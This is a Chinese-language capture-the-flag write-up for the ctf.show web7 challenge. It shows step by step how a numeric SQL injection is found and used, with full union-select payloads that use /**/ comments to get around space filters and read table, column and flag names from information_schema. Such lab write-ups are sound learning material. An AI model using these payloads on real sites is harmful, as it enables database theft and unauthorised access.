

# 网址
[案例](https://ctf.show/challenges#web7-12)
# 学习参考
[学习](https://blog.csdn.net/wangyuxiang946/article/details/119850344)

# 发现
- https://491cccf7-09e2-43d1-b768-e3b6852be6e7.challenge.ctf.show/index.php?id=1
- 有id=1
因此，可能是sql注入
# 首先判断注入点-1/**/union/**/select/**/1,2,3
- /\**/and/**/1
1. /**/ 是SQL中的多行注释符号，在许多数据库中（如MySQL）会被忽略
2. and 是SQL逻辑运算符
3. 1 是布尔真值
结果如下

发现显示了数据
由此可以判断页面存在SQL注入,注入点为数值型注入,页面中有显示位,可以尝试联合注入进行脱库
# 判断显示位与联合查询
此处id传一个-1,由于id通常不为负数,后端根据id查询不到内容,就只能展示联合查询的结果,从而帮助我们判断字段显示的位置
- -1/\**/union/**/select/\*\*/1,2,3
结果如下

发现2是文章标题，3是文章内容
# 获取数据库
- -1/\**/union/\*\*/select/**/1,database(),3
结果如下

发现是web7数据库
# 当前数据库中的所有表
```sql
-1/**/union/**/select/**/
1,(select/**/group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema="web7")
,3
```
结果如下

发现有三张表flag、page、user
结果肯定就在flag中
# 获取flag表中的所有字段
```sql
-1/**/union/**/select/**/1,
(select/**/group_concat(column_name)from/**/information_schema.columns/**/where/**/table_schema="web7"/**/and/**/table_name="flag")
,3
```
结果如下

发现只有flag字段
# 获取flag
```sql
-1/**/union/**/select/**/1,(select/**/flag/**/from/**/flag),3
```
# 结果
